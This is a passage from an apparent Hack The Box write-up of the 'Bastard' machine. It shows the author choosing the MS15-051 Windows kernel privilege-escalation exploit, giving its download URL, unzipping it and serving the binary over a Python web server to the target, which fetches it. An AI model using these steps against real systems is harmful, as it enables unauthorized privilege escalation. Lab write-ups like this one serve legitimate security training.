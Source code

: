 We should use our Google Fu again to see what we can find about this old Windows server Operating System.
We can use the following search query: `windows 2008 server kernel exploits` on Google.

One of the first pages is the known [SecWiki with Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

We should scroll through the list to see if there might be an interesting kernel exploit available.

![image](/assets/img/WriteUp/HTB/Bastard/Pasted image 20240321164513.png){: width="700" height="400" }

The `MS15-051` is a known and stable exploit for this version. We should download the exploit and transfer it to the target.
The xploit can be downloaded from here: https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS15-051/MS15-051-KB3045171.zip

We should extract the file in our project folder and start a python web server so we can transfer it to our target.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bastard]
└─$ unzip MS15-051-KB3045171.zip
Archive:  MS15-051-KB3045171.zip
   creating: MS15-051-KB3045171/
  inflating: MS15-051-KB3045171/ms15-051.exe  
  inflating: MS15-051-KB3045171/ms15-051x64.exe  
   creating: MS15-051-KB3045171/Source/
   creating: MS15-051-KB3045171/Source/ms15-051/
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.cpp  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.filters  
  inflating: MS15-051-KB3045171/Source/ms15-051/ms15-051.vcxproj.user  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ntdll64.lib  
  inflating: MS15-051-KB3045171/Source/ms15-051/ReadMe.txt  
   creating: MS15-051-KB3045171/Source/ms15-051/Win32/
  inflating: MS15-051-KB3045171/Source/ms15-051/Win32/ms15-051.exe  
   creating: MS15-051-KB3045171/Source/ms15-051/x64/
  inflating: MS15-051-KB3045171/Source/ms15-051/x64/ms15-051x64.exe  
  inflating: MS15-051-KB3045171/Source/ms15-051.sln  
  inflating: MS15-051-KB3045171/Source/ms15-051.suo  

┌──(emvee㉿kali)-[~/Documents/HTB/Bastard]
└─$ cd MS15-051-KB3045171/Source/ms15-051/x64/       

┌──(emvee㉿kali)-[~/…/MS15-051-KB3045171/Source/ms15-051/x64]
└─$ sudo python3 -m http.server 80                                                                     
[sudo] password for emvee: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
^@10.129.51.177 - - [20/Mar/2024 10:29:20] "GET /ms15-051x64.exe HTTP/1.1" 200 -
10.129.51.177 - - [20/Mar/2024 10:29:20] "GET /ms15-051x64.exe HTTP/1.1" 200 -

```

